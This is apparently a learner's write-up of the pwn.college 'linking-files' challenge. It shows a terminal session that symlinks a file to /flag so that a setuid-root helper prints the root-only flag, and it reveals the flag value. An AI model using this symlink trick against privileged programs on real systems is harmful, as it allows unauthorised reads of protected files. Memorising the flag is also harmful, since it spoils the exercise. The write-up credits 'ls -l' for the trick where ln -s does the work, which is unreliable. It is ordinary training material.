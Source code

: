 **Flag:** `pwn.college{Ahi3LmbDtTaoXnyq4WQGE5uTfXB.QX5ETN1wyN4gjNzEzW}` 

The process of obtaining the flag using ls -l and linking the file to flag.

```
hacker@commands~linking-files:~$ ls -l /challenge/catflag
-rwsr-xr-x 1 root root 123 Jan 14  2025 /challenge/catflag
hacker@commands~linking-files:~$ ls -l /home/hacker/not-the-flag
ls: cannot access '/home/hacker/not-the-flag': No such file or directory
hacker@commands~linking-files:~$ ln -s /flag /home/hacker/not-the-flag
hacker@commands~linking-files:~$ ls -l /home/hacker/not-the-flag
lrwxrwxrwx 1 hacker hacker 5 Sep 23 09:53 /home/hacker/not-the-flag -> /flag
hacker@commands~linking-files:~$ /challenge/catflag
About to read out the /home/hacker/not-the-flag file!
pwn.college{Ahi3LmbDtTaoXnyq4WQGE5uTfXB.QX5ETN1wyN4gjNzEzW}
```

## What I Learned

The challenge taught me on how symbolic linking using ls -l works and can be used to read normally unsourceable data.

## References

None